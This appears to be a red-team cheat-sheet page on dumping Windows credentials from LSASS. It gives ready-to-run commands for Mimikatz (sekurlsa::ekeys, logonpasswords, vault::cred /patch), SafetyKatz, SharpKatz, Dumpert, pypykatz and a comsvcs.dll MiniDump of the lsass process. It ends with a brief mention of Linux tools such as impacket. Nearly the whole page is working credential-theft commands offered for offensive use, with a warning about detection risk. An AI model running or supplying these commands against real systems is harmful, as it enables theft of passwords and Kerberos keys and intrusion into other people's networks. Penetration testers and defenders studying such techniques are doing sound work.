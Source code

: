 # Credentials Dumping

## LSASS

{% hint style="danger" %}
high chances of detection
{% endhint %}

### Kerberos encryption keys

The Kerberos SSP used by LSASS in order to provide different authentication methods.\
Therefore, it possible to dump Kerberos encryption keys using `sekurlsa::ekeys`.

```powershell
# Dump credentials on a local machine using Mimikatz.
Invoke-Mimikatz -Command '"sekurlsa::ekeys"' 

# Using SafetyKatz (Minidump of lsass and PELoader to run Mimikatz)
SafetyKatz.exe "sekurlsa::ekeys" 

# Dump credentials Using SharpKatz (C# port of some of Mimikatz functionality).
SharpKatz.exe --Command ekeys

# Dump credentials using Dumpert (Direct System Calls and API unhooking)
rundll32.exe C:\Dumpert\Outflank-Dumpert.dll,Dump

# Using pypykatz (Mimikatz functionality in Python)
pypykatz.exe live lsa

# Using comsvcs.dll
tasklist /FI "IMAGENAME eq lsass.exe"
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump
<lsass process ID> C:\Users\Public\lsass.dmp full 
```

### Logon Passwords

This usually shows recently logged on user and computer credentials.

```powershell
Invoke-Mimikatz -Command '"sekurlsa::logonpasswords"' 
```

## Vault

Enumerates vault credentials of scheduled tasks.

```powershell
Invoke-Mimi -Command '"token::elevate" "vault::cred /patch"'
```

## Linux

* From a Linux attacking machine using **impacket**.
* From a Linux attacking machine using **Physmem2profit.**
